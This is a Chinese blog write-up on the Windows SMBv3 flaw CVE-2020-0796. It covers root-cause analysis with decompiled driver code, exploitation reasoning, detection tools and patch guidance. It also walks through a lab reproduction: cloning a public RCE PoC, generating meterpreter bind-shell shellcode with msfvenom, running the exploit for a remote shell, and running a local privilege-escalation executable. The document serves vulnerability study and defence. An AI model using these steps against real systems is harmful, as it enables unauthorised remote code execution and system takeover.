# Windows SMBv3 CVE-2020-0796 漏洞分析和 l 漏洞复现 - freeliver - 博客园

> 原文：[`www.cnblogs.com/cmt110/p/13178344.html`](https://www.cnblogs.com/cmt110/p/13178344.html)

### 0x00  漏洞描述

漏洞公告显示，SMB 3.1.1 协议中处理压缩消息时，对其中数据没有经过安全检查，直接使用会引发内存破坏漏洞，可能被攻击者利用远程执行任意代码。攻击者利用该漏洞无须权限即可实现远程代码执行，受黑客攻击的目标系统只需开机在线即可能被入侵。

### 0x01  漏洞响应版本

Windows 10 1903 版本（用于基于 x32 的系统）Windows 10 1903 版（用于基于 x64 的系统）Windows 10 1903 版（用于基于 ARM64 的系统）Windows Server 1903 版（服务器核心安装）Windows 10 1909 版本（用于基于 x32 的系统）Windows 10 版本 1909（用于基于 x64 的系统）Windows 10 1909 版（用于基于 ARM64 的系统）Windows Server 版本 1909（服务器核心安装）

### 0x02  漏洞分析

漏洞公告显示，SMB 3.1.1 协议中处理压缩消息时，对其中数据没有经过安全检查，直接使用会引发内存破坏漏洞，可能被攻击者利用远程执行任意代码。攻击者利用该漏洞无须权限即可实现远程代码执行，受黑客攻击的目标系统只需开机在线即可能被入侵。

#### 1.根本原因

漏洞发生在 srv2.sys 中,由于 SMB 没有正确处理压缩的数据包,在解压数据包的时候使用客户端传过来的长度进行解压时,并没有检查长度是否合法.最终导致整数溢出。

#### 2.初步分析

该错误是发生在 srv2.sys SMB 服务器驱动程序中的 Srv2DecompressData 函数中的整数溢出错误。这是该函数的简化版本，省略了不相关的细节：


```
typedef struct _COMPRESSION_TRANSFORM_HEADER
{
    ULONG ProtocolId;
    ULONG OriginalCompressedSegmentSize;
    USHORT CompressionAlgorithm;
    USHORT Flags;
    ULONG Offset;
} COMPRESSION_TRANSFORM_HEADER, *PCOMPRESSION_TRANSFORM_HEADER;

typedef struct _ALLOCATION_HEADER
{
    // ...
 PVOID UserBuffer;
    // ...
} ALLOCATION_HEADER, *PALLOCATION_HEADER;

NTSTATUS Srv2DecompressData(PCOMPRESSION_TRANSFORM_HEADER Header, SIZE_T TotalSize)
{
    PALLOCATION_HEADER Alloc = SrvNetAllocateBuffer(
        (ULONG)(Header->OriginalCompressedSegmentSize + Header->Offset),
        NULL);
    If (!Alloc) {
        return STATUS_INSUFFICIENT_RESOURCES;
    }

    ULONG FinalCompressedSize = 0;

    NTSTATUS Status = SmbCompressionDecompress(
        Header->CompressionAlgorithm,
        (PUCHAR)Header + sizeof(COMPRESSION_TRANSFORM_HEADER) + Header->Offset,
        (ULONG)(TotalSize - sizeof(COMPRESSION_TRANSFORM_HEADER) - Header->Offset),
        (PUCHAR)Alloc->UserBuffer + Header->Offset,
        Header->OriginalCompressedSegmentSize,
        &FinalCompressedSize);
    if (Status < 0 || FinalCompressedSize != Header->OriginalCompressedSegmentSize) {
        SrvNetFreeBuffer(Alloc);
        return STATUS_BAD_DATA;
    }

    if (Header->Offset > 0) {
        memcpy(
            Alloc->UserBuffer,
            (PUCHAR)Header + sizeof(COMPRESSION_TRANSFORM_HEADER),
            Header->Offset);
    }

    Srv2ReplaceReceiveBuffer(some_session_handle, Alloc);
    return STATUS_SUCCESS;
}
```


该 Srv2DecompressData 函数接收客户端发送的压缩消息，分配所需的内存量，并解压缩数据。然后，如果 Offset 字段不为零，它会将放置在压缩数据之前的数据复制到分配的缓冲区的开头。



如果仔细观察，我们会发现第 20 行和第 31 行可能导致某些输入的整数溢出。例如，大多数在 bug 发布后不久出现并导致系统崩溃的 poc 都使用 0xffffff 值作为 Offset 字段。使用该值 0xffffff 会在第 20 行触发整数溢出，因此分配的字节更少。

稍后，它会在第 31 行触发额外的整数溢出。崩溃是由于在第 30 行中计算出的远离接收消息的地址处的内存访问造成的。如果代码在第 31 行验证了计算结果，那么它将很早退出，因为缓冲区长度恰好是负数且无法表示，这也使得第 30 行的地址本身也无效。



#### 3.选择溢出内容

只有两个相关字段可以控制以导致整数溢出的字段：OriginalCompressedSegmentSize 和 Offset，因此没有太多选择。在尝试了几种组合之后，下面的组合吸引了我们：如果我们发送一个合法的偏移值和一个巨大的原始压缩段大小值呢？让我们回顾一下代码将要执行的三个步骤：

1.  分配：由于整数溢出，分配的字节数将小于两个字段的总和。
2.  解压缩：解压缩将收到一个非常大的 OriginalCompressedSegmentSize 值，将目标缓冲区视为具有无限大小。所有其他参数均不受影响，因此它将按预期执行。
3.  复制：如果要执行，则复制将按预期执行。

不管是否要执行复制步骤，它看起来已经很有趣了——我们可以在解压缩阶段触发越界写入，因为我们设法分配了比“分配”阶段所需的字节少的字节。



如您所见，使用这种技术，我们可以触发任何大小和内容的溢出，这是一个很好的开始。但是什么位于我们的缓冲区之外？让我们找出答案！

#### 4.深入分析 SrvNetAllocateBuffer

为了回答这个问题，我们需要查看分配函数，在我们的例子中是 SrvNetAllocateBuffer。下面是函数的有趣部分：


```
PALLOCATION_HEADER SrvNetAllocateBuffer(SIZE_T AllocSize, PALLOCATION_HEADER SourceBuffer)
{
    // ...

    if (SrvDisableNetBufferLookAsideList || AllocSize > 0x100100) {
        if (AllocSize > 0x1000100) {
            return NULL;
        }
        Result = SrvNetAllocateBufferFromPool(AllocSize, AllocSize);
    } else {
        int LookasideListIndex = 0;
        if (AllocSize > 0x1100) {
            LookasideListIndex = /* some calculation based on AllocSize */;
        }

        SOME_STRUCT list = SrvNetBufferLookasides[LookasideListIndex];
        Result = /* fetch result from list */;
    }

    // Initialize some Result fields...

    return Result;
}
```


我们可以看到分配函数根据所需的字节数执行不同的操作。大型分配（大于约 16MB）会导致执行失败。中型分配（大于约 1 MB）使用 SrvNetAllocateBufferFromPool 函数进行分配。小型分配（其余的）使用 lookaside 列表进行优化。

注意：还有一个 SrvDisableNetBufferLookAsideList 标志会影响函数的功能，但是它是由一个未记录的注册表设置来设置的，并且默认情况下处于禁用状态，因此并不是很有趣。

Lookaside 列表用于有效地为驱动程序保留一组可重用的、固定大小的缓冲区。lookaside 列表的功能之一是定义一个自定义的分配/释放函数，用于管理缓冲区。查看 SrvNetBufferLookasides 数组的引用，我们发现它是在 SrvNetCreateBufferLookasides 函数中初始化的，通过查看它，我们了解到以下内容：

*   自定义分配函数定义为 SrvNetBufferLookasideAllocate，它只调用 SrvNetAllocateBufferFromPool
*   9 个 lookaside 列表按以下大小创建，我们使用 Python 快速计算：
    >>> [hex((1 << (i + 12)) + 256) for i in range(9)]
    [‘0x1100’, ‘0x2100’, ‘0x4100’, ‘0x8100’, ‘0x10100’, ‘0x20100’, ‘0x40100’, ‘0x80100’, ‘0x100100’]
*   这与我们的发现相匹配，即分配大于 0x100100 字节的分配时不使用 lookaside 列表。

结论是每个分配请求最终都出现在 SrvNetAllocateBufferFromPool 函数中，所以让我们来分析它。

#### 6.SrvNetAllocateBufferFromPool 和分配的缓冲区布局

SrvNetAllocateBufferFromPool 函数使用 ExAllocatePoolWithTag 函数在 NonPagedPoolNx 池中分配一个缓冲区，然后用数据填充一些结构。分配的缓冲区的布局如下：



在我们的研究范围内，此布局的唯一相关部分是用户缓冲区和分配头结构。我们可以马上看到，通过溢出用户缓冲区，我们最终会重写 ALLOCATION_HEADER 结构。看起来很方便。

#### 7.重写分配头结构

此时，我们的第一个想法是，由 SmbCompressionDecompress 调用之后的检查：

```
if (Status < 0 || FinalCompressedSize != Header->OriginalCompressedSegmentSize) {
    SrvNetFreeBuffer(Alloc);
    return STATUS_BAD_DATA;
}
```

SrvNetFreeBuffer 将被调用，并且该函数将失败，因为我们将其设计 OriginalCompressedSegmentSize 为一个很大的数字，并且 FinalCompressedSize 将成为一个较小的数字，代表实际的解压缩字节数。因此，我们分析了该 SrvNetFreeBuffer 函数，成功地替换了一个幻数的分配指针，然后等待 free 函数尝试对其进行释放，以期稍后将其用于 free-after-free 或类似用途。但是令我们惊讶的是，该 memcpy 函数崩溃了。这使我们感到高兴，因为我们根本没有想到哪里，但我们必须检查为什么会这样。可以在 SmbCompressionDecompress 函数的实现中找到说明：


```
NTSTATUS SmbCompressionDecompress(
    USHORT CompressionAlgorithm,
    PUCHAR UncompressedBuffer,
    ULONG  UncompressedBufferSize,
    PUCHAR CompressedBuffer,
    ULONG  CompressedBufferSize,
    PULONG FinalCompressedSize)
{
    // ...
 NTSTATUS Status = RtlDecompressBufferEx2(
        ...,
        FinalUncompressedSize,
        ...);
    if (Status >= 0) {
        *FinalCompressedSize = CompressedBufferSize;
    }

    // ...

    return Status;
}
```


基本上，如果解压成功，FinalCompressedSize 将更新为保存 CompressedBufferSize 的值，它是缓冲区的大小。这种对 FinalCompressedSize 返回值的故意更新对我们来说似乎非常可疑，因为这个小细节，加上分配的缓冲区布局，允许非常方便地利用这个 bug。

由于执行继续到复制原始数据的阶段，让我们再次检查调用：

```
memcpy（
    Alloc-> UserBuffer，
    （PUCHAR）title+ sizeof（COMPRESSION_TRANSFORM_HEADER），
    Header-> Offset）;
```

从 ALLOCATION_HEADER 结构中读取目标地址，我们可以覆盖该结构。缓冲区的内容和大小也由我们控制。

#### 8.本地权限提升

既然我们有了写在哪里开发，我们能用它做什么？很明显我们可以让系统崩溃。我们可能能够触发远程代码执行，但我们还没有找到这样做的方法。如果我们在本地主机上使用此漏洞并泄漏其他信息，我们可以将其用于本地权限提升，因为已经通过几种技术证明了这一点

我们尝试的第一种技术是 Morten Schenk 在其《[Black Hat USA 2017》演讲中提出的](https://www.blackhat.com/docs/us-17/wednesday/us-17-Schenk-Taking-Windows-10-Kernel-Exploitation-To-The-Next-Level%E2%80%93Leveraging-Write-What-Where-Vulnerabilities-In-Creators-Update.pdf)。该技术涉及重写 win32 的.data 部分中的函数指针数据库系统驱动程序，然后从用户模式调用相应的函数以获得代码执行。j00ru 写了一篇关于在 WCTF 2018 中使用此技术的精彩文章，并提供了他的漏洞源代码。我们针对 write what where 漏洞进行了调整，但发现它不起作用，因为处理 SMB 消息的线程不是 GUI 线程。因此，win32 数据库系统没有映射，而且技术也不相关（除非有办法使它成为一个 GUI 线程，这是我们没有研究过的）。

我们最终在 2012 年的黑帽演示中使用了 cesarcer 所介绍的著名技术—轻松本地 Windows 内核开发。该技术是通过使用 NtQuerySystemInformation（SystemHandleInformation）API 泄漏当前进程令牌地址，然后重写该地址，授予当前进程令牌权限，这些权限可用于权限提升。Bryan Alexander（dronesec）和 Stephen Breen（breenmachine）（2017）在 EoP 研究中滥用代理权限，展示了使用各种令牌特权提升特权的几种方法。

我们基于 Alexandre Beaulieu 在利用任意写操作提升权限 writeup 时共享的代码进行攻击。在修改进程的令牌特权后，我们通过将 DLL 注入 winlogon.exe. DLL 的全部目的是启动命令提示符. 我们的完整本地特权升级证明可在[此处](https://github.com/ZecOps/CVE-2020-0796-LPE-POC)找到，仅可用于研究/防御目的。

### 0x03  CVE-2020-0796 RCE 漏洞复现

1.环境准备攻击机：kal2020  ip:192.168.79.132 目标靶机：windows10 1909   x64 (10.0.18363 专业版，企业版也可以） ip:192.168.79.139 目标靶机的下载：在 msdn 上、或者远景上下载镜像。2.环境要求：(1).该 poc 不太稳定，需要多次测试(猜测是占用监听端口或者网络问题），有可能出现蓝屏现象(2).如果 POC 失败，可能是目标系统开启系统自带的 defender 拦截了(3).测试的时候，最好关闭防火墙和杀软，让 445 端口开放 3.复现步骤(1).kali 下克隆下载利用 poc

```
py007@kali:~/Desktop$ git clone https://github.com/chompie1337/SMBGhost_RCE_PoC.git
```

(2).切换到利用 poc 目录下

```
py007@kali:~/Desktop$ cd SMBGhost_RCE_PoC/
```

(3).该 POC 需要用 python3 环境执行(4).可以看到目标靶机的 IP 地址以及系统版本

 

(5).在 kali 下生成 python 版本的反弹 shellcode

```
py007@kali:~/Desktop$ msfvenom -p windows/x64/meterpreter/bind_tcp lport=5555 -f py -o exp.py
```

(6).可以看到生成的 shellcode

```
py007@kali:~/Desktop$ cat exp.py
```

(7).将生成的 exp.py 代码中的变量 buf 全部替换成变量 USER_PAYLOAD，然后将所有代码粘贴覆盖下面的代码处：(8).在 kali 上启动 MSF，并如下设置

```
msf5 > use exploit/multi/handler
msf5 exploit(multi/handler) > set payload windows/x64/meterpreter/bind_tcp   #设置反弹模式
msf5 exploit(multi/handler) > set rhost 192.168.79.139 #设置目标靶机 IP 地址
msf5 exploit(multi/handler) > set lport 5555 #设置监听端口
msf5 exploit(multi/handler) > exploit 
```

(9).执行利用 poc，可以看到成功执行，在按任意键，最好回车键即可

```
python3  exploit.py  -ip  192.168.79.139
```

(10).在 msf 可以看到成功反弹出目标靶机的 shell

### 0x04  CVE-2020-0796 本地提权漏洞复现（6.22*Windows* Defender 曝出病毒）

1.环境要求，需要 windows 10 1909 x64 下载地址：ed2k://|file|cn_windows_10_business_editions_version_1909_x64_dvd_0ca83907.iso|5275090944|9BCD5FA6C8009E4D0260E4B23008BD47|/提权 POC:[`github.com/danigargu/CVE-2020-0796/releases`](https://github.com/danigargu/CVE-2020-0796/releases)2.这里我新建了一个普通权限的账号，可以看到权限很小3.在普通账号上执行 cve-2020-0796-local.exe，可以看到成功提权到 system 权限 

**0796 提权 exe 直接被本地查杀。**

### 0x05  漏洞检测

1.奇安信批量检测工具：[`dl.qianxin.com/skylar6/CVE-2020-0796-Scanner.zip`](http://dl.qianxin.com/skylar6/CVE-2020-0796-Scanner.zip)2.sh 脚本检测：[`gist.githubusercontent.com/nikallass/40f3215e6294e94cde78ca60dbe07394/raw/84d803de937f5b6810df4441cc84f0fa63991e2e/check-smb-v3.11.sh`](https://gist.githubusercontent.com/nikallass/40f3215e6294e94cde78ca60dbe07394/raw/84d803de937f5b6810df4441cc84f0fa63991e2e/check-smb-v3.11.sh)3.python 脚本检测：[`github.com/ollypwn/SMBGhost`](https://github.com/ollypwn/SMBGhost)

### 0x06 漏洞修复

1\. 更新，完成补丁的安装。

操作步骤：设置->更新和安全->Windows 更新，点击“检查更新”。
2.微软给出了临时的应对办法：
运行 regedit.exe，打开注册表编辑器，在 HKLM\SYSTEM\CurrentControlSet\Services\LanmanServer\Parameters 建立一个名为 DisableCompression 的 DWORD，值为 1，禁止 SMB 的压缩功能。

3.对 SMB 通信 445 端口进行封禁。

4.补丁链接[`catalog.update.microsoft.com/v7/site/Search.aspx?q=KB4551762`](https://catalog.update.microsoft.com/v7/site/Search.aspx?q=KB4551762)

### 0x07  参考连接

[`www.cnblogs.com/A66666/p/29635a243378b49ccb485c7a280df989.html`](https://www.cnblogs.com/A66666/p/29635a243378b49ccb485c7a280df989.html)[`github.com/danigargu/CVE-2020-0796`](https://github.com/danigargu/CVE-2020-0796)[`dl.qianxin.com/skylar6`](http://dl.qianxin.com/skylar6)[`github.com/ollypwn/SMBGhost`](https://github.com/ollypwn/SMBGhost)[`github.com/chompie1337/SMBGhost_RCE_PoC`](https://github.com/chompie1337/SMBGhost_RCE_PoC)[`github.com/danigargu/CVE-2020-0796`](https://github.com/danigargu/CVE-2020-0796)[`blog.zecops.com/vulnerabilities/exploiting-smbghost-cve-2020-0796-for-a-local-privilege-escalation-writeup-and-poc/`](https://blog.zecops.com/vulnerabilities/exploiting-smbghost-cve-2020-0796-for-a-local-privilege-escalation-writeup-and-poc/)